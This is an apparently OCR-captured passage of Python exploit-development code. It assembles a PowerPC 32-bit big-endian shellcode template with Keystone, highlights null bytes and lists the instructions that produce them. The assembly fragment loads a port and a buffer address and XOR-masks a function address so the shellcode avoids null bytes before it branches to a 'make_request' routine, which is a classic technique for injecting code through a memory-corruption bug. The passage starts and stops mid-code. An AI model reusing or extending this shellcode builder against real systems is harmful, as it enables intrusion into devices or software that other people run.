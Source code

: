 ```py
        addi  4, 4, 0x{PORT:04x}
        addis 5, 0, 0x{h16(READ_BUFFER):04x}
        ori   5, 5, 0x{l16(READ_BUFFER):04x}
        xor   6, 6, 6        # clear r6
        addi  6, 6, 0x101
        andi.   6, 6, 0xfff0 # Avoid null bytes in

        xor   12, 12, 12        # clear r12
        addis 12,12, 0x{h16(make_request)^0x0110:04x} # We need is to not have null bytes
        ori   12,12, 0x{l16(make_request):04x}
        xor   11, 11, 11        # clear r11
        addis 11,11, 0x0110
        xor   12, 11, 12  # r12 = make_request ^ 0x00100000
        mtctr 12
        bctrl
    """

def assemble(asm_source: str) -> bytes:
    """Assemble the given PPC32 Big-Endian source to raw shellcode."""
    ks = Ks(KS_ARCH_PPC, KS_MODE_PPC32 | KS_MODE_BIG_ENDIAN)
    encoding, _ = ks.asm(asm_source)
    return bytes(encoding)

def highlight_shellcode(data: bytes) -> str:
    """Return a printable string with \x00 bytes rendered in red."""
    out = []
    for b in data:
        byte = f"\\x{b:02x}"
        if b == 0:
            out.append(f"{Fore.RED}{byte}{Style.RESET_ALL}")
        else:
            out.append(byte)
    return ''.join(out)

def instructions_causing_nulls(asm_source: str) -> list[tuple[str, bytes]]:
    """
    Re-assemble each individual instruction so we can tell
    which of them produces a 0x00 byte.
    """
    ks = Ks(KS_ARCH_PPC, KS_MODE_PPC32 | KS_MODE_BIG_ENDIAN)
    offenders = []
    for raw in asm_source.splitlines():
        # strip comments and blank lines
        instr = raw.split('#', 1)[0].strip()
        if not instr:
            continue
        enc, _ = ks.asm(instr)
        encoded = bytes(enc)
        if 0 in encoded:
            offenders.append((instr, encoded))
    return offenders

# ---------- Main entry point ----------
if __name__ == "__main__":
    colorama_init(autoreset=True)

    shellcode  = assemble(asm_source)

    # 1) Pretty print the final shellcode
    print(f"shellcode length: {len(shellcode)} bytes\n")
    print(highlight_shellcode(shellcode), "\n")

    # 2) Show which instructions contain nul bytes
```